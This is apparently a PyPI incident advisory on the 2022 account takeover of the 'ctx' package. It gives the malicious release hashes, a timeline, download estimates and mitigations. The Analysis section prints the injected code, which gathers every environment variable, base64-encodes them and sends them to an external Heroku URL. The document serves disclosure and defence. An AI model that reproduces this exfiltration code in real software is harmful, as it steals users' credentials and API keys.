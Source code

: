=========================================================
Account Takeover and Malicious Replacement of ctx Project
=========================================================

Summary
=======

The ``ctx`` hosted project on PyPI was taken over via user account compromise
and replaced with a malicious project which contained runtime code which
collected the content of ``os.environ.items()``` when instantiating ``Ctx``
objects. The captured environment variables were sent as a base64 encoded query
parameter to a heroku application running at ``https://anti-theft-web.herokuapp.com``.

Between 2022-05-14T19:18:36Z and 2022-05-24T10:07:17Z the following release
below files were hosted by PyPI at various times containing this malicious
payload

If you installed the package between May 14, 2022 and May 24, 2022, and your
environment variables contain sensitive data like passwords and API keys (like
AWS_ACCESS_KEY_ID and AWS_SECRET_ACCESS_KEY), we advise you rotate your
passwords and keys, then perform an audit to determine if they were exploited.

+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+--------------------------+------------------------------------------------------------------+
| File                                                                                                                                                                                       | Upload Time              | sha 256 digest                                                   |
+============================================================================================================================================================================================+==========================+==================================================================+
| `ctx-0.2.2-py2.py3-none-any.whl <https://files.pythonhosted.org/packages/4c/e2/f78e95454725d45602611560682cc1929ee18af496d2a2bc5430278d9153/ctx-0.2.2-py2.py3-none-any.whl>`_              | 2022-05-21T12:41:57.066Z | acf05948020a86092943b40d6e5c5b51ec6087923f58942216b9c5e8b853d3fb |
+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+--------------------------+------------------------------------------------------------------+
| `ctx-0.1.2-1-py2.py3-none-any.whl <https://files.pythonhosted.org/packages/55/2f/62dc2487337bbc3d761c8117f255a9ac234888bf46467455e5315814b737/ctx-0.1.2-1-py2.py3-none-any.whl>`_          | 2022-05-21T12:54:51.344Z | 5dc1bc1404c27699ee40fd71eeb586d6842e1478f9f14dab5d1763fc20dff3d3 |
+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+--------------------------+------------------------------------------------------------------+
| `ctx-0.1.2-1.tar.gz <https://files.pythonhosted.org/packages/41/7a/2e658c7805560d0dcce50a469a0b68f48e78b3f3aa1d7431249f046f60f2/ctx-0.1.2-1.tar.gz>`_                                      | 2022-05-21T12:54:53.384Z | b40297af54e3f99b02e105f013265fd8d0a1b1e1f7f0b05bcb5dbdc9125b3bb5 |
+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+--------------------------+------------------------------------------------------------------+
| `ctx-0.2.3-py2.py3-none-any.whl <https://files.pythonhosted.org/packages/3f/54/c129c06f63fd7ea2c38fe933a2152ce40467de1db21739f117f6d166d90b/ctx-0.2.3-py2.py3-none-any.whl>`_              | 2022-05-21T16:17:17.016Z | f45a256c2f7aace635a82118dfadf6f6023315fc73d7d473b99acc40ecb12278 |
+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+--------------------------+------------------------------------------------------------------+
| `ctx-0.2.3.tar.gz <https://files.pythonhosted.org/packages/08/0e/af68c739501eb7734d59fe1acefbf9248a9ebcb2691eabad20e1d3fd6a75/ctx-0.2.3.tar.gz>`_                                          | 2022-05-21T16:17:19.599Z | 15103c1af07a9a091dfe3b6c6dda9f1f11fd65bd9a878a9aaa79aee6bb8722cc |
+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+--------------------------+------------------------------------------------------------------+
| `ctx-0.2.2.1-py2.py3-none-any.whl <https://files.pythonhosted.org/packages/dd/68/27389f6a566a102de83539bc69c506085e8b8ac509119a4f17990e3bb4cb/ctx-0.2.2.1-py2.py3-none-any.whl>`_          | 2022-05-21T16:19:40.081Z | 5b484f642eaf4f5708d446e93f0f698f57bbece49d27808a59980358abdbe590 |
+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+--------------------------+------------------------------------------------------------------+
| `ctx-0.2.2.1.tar.gz <https://files.pythonhosted.org/packages/f0/e6/f4effbd2483d061edbe62cd8107700fdaf7e6e5843cea70c8c859b5d0fca/ctx-0.2.2.1.tar.gz>`_                                      | 2022-05-21T16:19:42.337Z | f7342f723517f24b13f2ab2f702abb78692288138c1053dbe64bccd8bc1175d5 |
+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+--------------------------+------------------------------------------------------------------+
| `ctx-0.2.4-py2.py3-none-any.whl <https://files.pythonhosted.org/packages/b0/fe/a2d322d861f73131c61020ad8e96f3b2a0bb4784e640e01e29a5be1454fe/ctx-0.2.4-py2.py3-none-any.whl>`_              | 2022-05-21T16:20:21.645Z | 280cc6f69a1cd80c9bf95272237d5620d14f226111066df1f0c0855722a89257 |
+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+--------------------------+------------------------------------------------------------------+
| `ctx-0.2.4.tar.gz <https://files.pythonhosted.org/packages/8a/c4/04990148f252dcc62dec759b09580972f02c9fc49056c8d69fe7ff92b6f3/ctx-0.2.4.tar.gz>`_                                          | 2022-05-21T16:20:23.581Z | 9c1bb795d660ddb0c42166e546af06230443cbcda8780f0f3541017a8659e7cd |
+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+--------------------------+------------------------------------------------------------------+
| `ctx-0.1.2-2-py2.py3-none-any.whl <https://files.pythonhosted.org/packages/b6/50/fd14560fac446587b442446871f91c7702631ee09e9b6b76221308ff7a6b/ctx-0.1.2-2-py2.py3-none-any.whl>`_          | 2022-05-21T16:24:52.810Z | e212e12d0983a9d81812f14fac8c207d1dc67a4ec9043af9aea0799b528dafa1 |
+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+--------------------------+------------------------------------------------------------------+
| `ctx-0.2.5-py2.py3-none-any.whl <https://files.pythonhosted.org/packages/09/ff/9ef8bb7abebc4c680fa3a497ea694f66273b0d3eafa8d5ce005fbf88eb1e/ctx-0.2.5-py2.py3-none-any.whl>`_              | 2022-05-21T16:27:18.221Z | 86b8e1e529e9a566ac7ce7d85ffe4e5cf69df50cb0e6e38fbb6e34e6965815a0 |
+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+--------------------------+------------------------------------------------------------------+
| `ctx-0.2.5.tar.gz <https://files.pythonhosted.org/packages/1e/4e/8cdcf228d1d2dd666eacbde59a0cfa994fe58af7287f2272dcd30717a584/ctx-0.2.5.tar.gz>`_                                          | 2022-05-21T16:27:19.867Z | 34c0ae0c77160355eefa8e43b1d8c68df31c448b5a28fe78f32300bf89eb0813 |
+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+--------------------------+------------------------------------------------------------------+
| `ctx-0.2.6-py2.py3-none-any.whl <https://files.pythonhosted.org/packages/33/ec/7771d928a431dabd4440dc420ed03029eddc4bd7067ffd0af49052174c6a/ctx-0.2.6-py2.py3-none-any.whl>`_              | 2022-05-21T16:28:19.342Z | 04b150ce4dbd2bcf054a9c2b676649f9da60b7ce2c74f31ebc4e1070dcc0fb94 |
+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+--------------------------+------------------------------------------------------------------+
| `ctx-0.2.6.tar.gz <https://files.pythonhosted.org/packages/b7/0d/00ed86e3e8363820c05d53f8c850dd88137f9b8f6ef1eed255a63ab5cbbd/ctx-0.2.6.tar.gz>`_                                          | 2022-05-21T16:28:21.490Z | 4fdfd4e647c106cef2a3b2503473f9b68259cae45f89e5b6c9272d04a1dfaeb0 |
+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+--------------------------+------------------------------------------------------------------+
| `ctx-0.2.tar.gz <https://files.pythonhosted.org/packages/19/8d/08520985e1433086304aa6e9671a47a94b3b949ca605bc883c1b15d03b68/ctx-0.2.tar.gz>`_                                              | 2022-05-14T23:52:46.207Z | 6c98fe4afa021885d5add151049aec7d812a31fb9a03bf5cdedefd42229b6b90 |
+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+--------------------------+------------------------------------------------------------------+
| `ctx-0.2.1.tar.gz <https://files.pythonhosted.org/packages/5a/71/74e1ea615c12401ffe569e3b486d6936e25bbeaeae981280a90c85aa2483/ctx-0.2.1.tar.gz>`_                                          | 2022-05-15T00:17:20.862Z | cdda4a2ec16bd52862e9b18aaa5525468318ba544fe426daeebc3d28e2b72897 |
+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+--------------------------+------------------------------------------------------------------+
| `ctx-0.2.2.tar.gz <https://files.pythonhosted.org/packages/83/2a/ea9818cdb7256ef86546d56c893d8c6504208766763e838583bded1353d4/ctx-0.2.2.tar.gz>`_                                          | 2022-05-15T00:44:53.658Z | b7644fa1e0872780690ce050c98aa2407c093473031ab5f7a8ce35c0d2fc077e |
+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+--------------------------+------------------------------------------------------------------+
| `ctx-0.1.4.tar.gz <https://files.pythonhosted.org/packages/be/1e/71f23d7b4e6a7eed404b28f5fcaa3594b76d24701ef16861773887fc82b1/ctx-0.1.4.tar.gz>`_                                          | 2022-05-14T19:18:36.994Z | 17714ef9ff6d2eabc631638e2f092115fa569843f9ab45b6e9da23912b72f482 |
+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+--------------------------+------------------------------------------------------------------+

The original and sole releases prior to the compromise are still available as:

+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+--------------------------+------------------------------------------------------------------+
| File                                                                                                                                                                                       | Upload Time              | sha 256 digest                                                   |
+============================================================================================================================================================================================+==========================+==================================================================+
| `ctx-0.1.2-py2.py3-none-any.whl <https://files.pythonhosted.org/packages/11/87/f6ab88cd29495120e255a092397095fb9a6ed0918a01fe104ca3389341df/ctx-0.1.2-py2.py3-none-any.whl>`_              | 2014-12-19T07:31:07.162Z | beb1628d6624b19c04a065fab6751feace594fd4072b3e649cafdd765182e441 |
+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+--------------------------+------------------------------------------------------------------+
| `ctx-0.1.2.tar.gz <https://files.pythonhosted.org/packages/48/aa/94bc2fdfe7a524cde4275c115bcc0185e6a58fde460568c513242b314b73/ctx-0.1.2.tar.gz>`_                                          | 2014-12-19T07:31:04.062Z | edbff45647936da3cdadcfeaa64ee9f62b8ad629a5cea8caa4b63f5dc08b99c4 |
+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+--------------------------+------------------------------------------------------------------+

* Disclosure date: **2022-05-24** (Response initiated via reports submitted via security policy on `pypi.org <https://pypi.org/security/>`_)
* Disclosed by: Multiple Parties


Analysis and Mitigation
=======================

Once notified, a PyPI administrator confirmed that all current releases on the
index contained a similar exfiltration mechanism in the contents of the
``ctx.py`` file of the release files::

    class Ctx(dict):

        def __init__(self):

            self.sendRequest()

        def sendRequest(self):
            string = ""
            for _, value in os.environ.items():
                string += value+" "

            message_bytes = string.encode('ascii')
            base64_bytes = base64.b64encode(message_bytes)
            base64_message = base64_bytes.decode('ascii')

            response = requests.get("https://anti-theft-web.herokuapp.com/hacked/"+base64_message)

**Note:** Above code is reduced to core mechanism for clarity.

With the malicious nature of all release files confirmed, the PyPI
administrator used existing tools to:

* Remove the project, all releases, and all release files from the index
* Simultaneously prohibit the name ``ctx`` from being re-registered without
  admin intervention
* Freeze the compromised user account of the owner

The activity log of the user, action log on the project, metadata for all
historical uploads---including malicious---, archives of the files, and their
locations in object storage were backed up for further analysis.

WHOIS records were then queried to confirm that the domain associated with the
owner user account had been recently registered on 2022-05-14T18:40:05Z.
Activity logs for the owner user account were then used to confirm that
malicious activity including password reset and uploads commenced just 12
minutes after domain registration. No mechanism for multi factor authentication
was enabled for the owner user account.

The PyPI administrators made the decision *not* to restore the original files
at this time, as PyPI policies state that actions on the index including
deletion are immutable.

If there is sufficient reason to restore the removed files a process that
complies with that contract will need to be developed.


Impact Assessment
=================

The ``ctx`` project was registered and uploaded to PyPI in 2014. According to
Libraries.io, the project on PyPI that declares it as a dependency is
``context-engine``. No known repositories that Libraries.io analyzes declares
``ctx`` as a dependency.

Before the malicious releases were uploaded, ``ctx`` saw on average 1600
downloads per day. After malicious releases were uploaded, downloads rose to a
peak of 4548 on 2022-05-20. Rises like these are common after new project
releases due to mirrors of PyPI syncing in new changes.

In total we estimate that 27,000 malicious versions of this project were
downloaded from PyPI, with the majority of "overage" downloads being driven by
mirrors.

This hypothesis is supported by data from analysis of requests to
https://pypi.org/simple/ctx/ showing no associated rise in simple traffic from
installers.

.. image:: ./2022-05-24-ctx-domain-takeover-chart.png
   :width: 400
   :alt: Chart showing simple request and download counts for ctx project on pypi

Potential Future Mitigation
===========================

Domain takeovers are a known attack vector for compromising individual user
accounts on PyPI. PyPI administrators have responded to reports in the past of
publicly visible email addresses associated with project metadata containing
expired domains, which happened to match the domains of owner user accounts for
projects.

Performing this analysis on an ongoing basis and freezing accounts with expired
or near expiration domains is a potential mitigation that could protect absent
maintainers in the future, at the cost of increased support burden on the team
of PyPI moderators and admins.

Further Reccomendations
=======================

We also advise PyPI users to enable multi factor authentication on their PyPI
accounts following the references at https://pypi.org/help/#twofa

The safety and pip-audit projects can be used to check for known
vulnerabilities in your dependencies:

* https://github.com/pyupio/safety
* https://github.com/trailofbits/pip-audit

You can join the security-sig mailing list to discuss Python security:
https://mail.python.org/mailman3/lists/security-sig.python.org/

Timeline
========

* Unknown: Domain hosting email for ``ctx`` owner user account expired
* 2022-05-10: Password reset attempted for ``ctx`` owner user account
* 2022-05-14T18:40:05Z: Domain associated with ``ctx`` owner user account registered
* 2022-05-14T18:52:40Z: ``ctx`` owner user account password successfully reset
* 2022-05-14T19:18:36Z - 2022-05-21T12:41:57Z: Malicious versions of ``ctx`` project uploaded
* 2022-05-21T12:50:23.107588: Original benign versions of ``ctx`` removed from index
* 2022-05-24: Reports of project takeover submitted on multiple channels including security@python.org
* 2022-05-24T10:07:17Z: All malicious releases of ``ctx`` project removed from index, project name prohibited from re-registration, and owner user account frozen

